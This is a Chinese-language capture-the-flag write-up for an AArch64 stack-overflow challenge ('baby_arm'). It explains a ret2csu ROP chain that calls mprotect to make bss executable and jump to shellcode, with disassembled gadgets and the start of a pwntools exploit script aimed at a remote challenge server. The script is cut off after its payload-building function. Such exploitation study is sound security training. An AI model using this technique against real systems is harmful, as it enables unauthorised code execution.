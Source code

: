 ### 思路
理一下思路，可以直接 rop，但我们不知道远程的 libc 版本，同时也发现程序中有调用 `mprotect` 的代码段
```assembly
.text:00000000004007C8                 STP             X29, X30, [SP,#-0x10]!
.text:00000000004007CC                 MOV             X29, SP
.text:00000000004007D0                 MOV             W2, #0
.text:00000000004007D4                 MOV             X1, #0x1000
.text:00000000004007D8                 MOV             X0, #0x1000
.text:00000000004007DC                 MOVK            X0, #0x41,LSL#16
.text:00000000004007E0                 BL              .mprotect
.text:00000000004007E4                 NOP
.text:00000000004007E8                 LDP             X29, X30, [SP],#0x10
.text:00000000004007EC                 RET
```
但这段代码把 `mprotect` 的权限位设成了 0，没有可执行权限，这就需要我们通过 rop 控制 `mprotect` 设置如 bss 段等的权限为可写可执行

因此可以有如下思路：

1. 第一次输入 name 时，在 bss 段写上 shellcode
2. 通过 rop 调用 mprotect 改变 bss 的权限
3. 返回到 bss 上的 shellcode

`mprotect` 需要控制三个参数，可以考虑使用 [ret2csu](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/medium_rop/#ret2csu) 这种方法，可以找到如下的 gadgets 来控制 `x0, x1, x2` 寄存器
```assembly
.text:00000000004008AC                 LDR             X3, [X21,X19,LSL#3]
.text:00000000004008B0                 MOV             X2, X22
.text:00000000004008B4                 MOV             X1, X23
.text:00000000004008B8                 MOV             W0, W24
.text:00000000004008BC                 ADD             X19, X19, #1
.text:00000000004008C0                 BLR             X3
.text:00000000004008C4                 CMP             X19, X20
.text:00000000004008C8                 B.NE            loc_4008AC
.text:00000000004008CC
.text:00000000004008CC loc_4008CC                              ; CODE XREF: sub_400868+3C↑j
.text:00000000004008CC                 LDP             X19, X20, [SP,#var_s10]
.text:00000000004008D0                 LDP             X21, X22, [SP,#var_s20]
.text:00000000004008D4                 LDP             X23, X24, [SP,#var_s30]
.text:00000000004008D8                 LDP             X29, X30, [SP+var_s0],#0x40
.text:00000000004008DC                 RET
```

最终的 [exp](https://github.com/bash-c/pwn_repo/blob/master/Shanghai2018_baby_arm/solve.py) 如下：
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
import sys
context.binary = "./pwn"
context.log_level = "debug"

if sys.argv[1] == "l":
    io = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", "./pwn"])
elif sys.argv[1] == "d":
    io = process(["qemu-aarch64", "-g", "1234", "-L", "/usr/aarch64-linux-gnu", "./pwn"])
else:
    io = remote("106.75.126.171", 33865)

def csu_rop(call, x0, x1, x2):
    payload = flat(0x4008CC, '00000000', 0x4008ac, 0, 1, call)
    payload += flat(x2, x1, x0)
    payload += '22222222'
    return payload


```
